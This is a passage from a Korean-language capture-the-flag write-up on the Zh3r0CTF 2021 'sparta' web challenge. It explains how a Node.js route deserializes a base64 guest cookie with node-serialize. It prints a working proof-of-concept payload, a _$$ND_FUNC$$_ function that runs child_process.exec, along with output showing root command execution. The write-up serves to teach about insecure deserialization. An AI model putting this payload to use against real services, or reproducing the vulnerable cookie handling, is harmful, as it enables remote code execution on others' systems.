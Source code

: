 	쿠키가 발급되면서 Hello!가 뜨지만

	![Untitled%206.png](\post-images\Zh3r0CTF\WEB\2021\sparta\Untitled%206.png)

	한번 새로고침을 하면 Cookie에 있는 값을 base64 decode한 후 역직렬화 하여 데이터를 출력하게 됩니다.

	해당 기능을 사용하는 코드를 살펴보면

	```js
	app.post('/guest', function(req, res) {
	   if (req.cookies.guest) {
	   	var str = new Buffer(req.cookies.guest, 'base64').toString();
	   	var obj = serialize.unserialize(str);
	   	if (obj.username) {
	     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
	   }
	 } else {
		 var username = req.body.username 
		 var country = req.body.country 
		 var city = req.body.city
		 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
	     var encoded_data = new Buffer(serialized_info).toString('base64');
		 res.cookie('guest', encoded_data, {
	       maxAge: 900000,
	       httpOnly: true
	     });
	 }
	 res.send("Hello!");
	});
	```

	`serialize.unserialize` 함수를 이용하여 임의적으로 입력한 값이 역직렬화되어 username이 출력되는것을 볼 수 있습니다.

	해당 `serialize.unserialize` 함수는 nodejs 역직렬화 하는 과정에서 매우 취약한 함수이며 `RCE(Remote Code Execute)` 취약점을 발생시킬 수 있습니다.

	```bash
	~$ cat serialize.js
	const serialize = require('node-serialize');

	var data = `{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('id', function(error, stdout, stderr) { console.log(stdout); });return 'a';}()", "country":"hello", "city":"helloworld"}`;
	serialize.unserialize(data);
	console.log(data);

	~$ node serialize.js
	{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('id', function(error, stdout, stderr) { console.log(stdout); });return 'a';}()", "country":"hello", "city":"helloworld"}
	uid=0(root) gid=0(root) groups=0(root)
	```
